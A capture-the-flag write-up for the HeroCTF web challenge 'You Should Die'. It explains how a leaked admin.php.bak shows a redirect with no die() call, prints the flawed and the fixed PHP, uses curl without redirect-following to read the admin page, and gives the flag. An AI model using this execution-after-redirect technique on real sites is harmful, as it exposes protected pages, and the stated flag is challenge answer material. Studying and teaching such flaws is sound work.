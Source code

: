 # You Should Die

### Category

Web

### Description

Could you retrieve the flag from this Marketing company ?

URL : http://challs.heroctf.fr:XXXX

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

If you look at the source code of the page, you can see this HTML comment :

```html
<!--
    For developper :
        Do not forget to remove admin.php.bak !
    
    Regards,
    Security Team
-->
```

**admin.php.bak** :

```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```

So, if we are not logged in, the page will redirect us to **/index.php**. But the correct code should be :

```php
if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
    die();
}
```

As the **die()** function is missing, the rest of the page is still executed.

If we use **curl** to get the **/admin.php** page with **-L** for **follow redirection**, we obtain the **/index.php** page.

```html
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php" -L | head
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <meta name="description" content="" />
        <meta name="author" content="" />
        <title>Mark3ting agency</title>
        <link rel="icon" type="image/x-icon" href="assets/img/favicon.ico" />
        <!-- Font Awesome icons (free version)-->
```

However, if we do not want to follow redirection, we see the rest of the page.

```shell
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php"
Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```

### Flag

Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}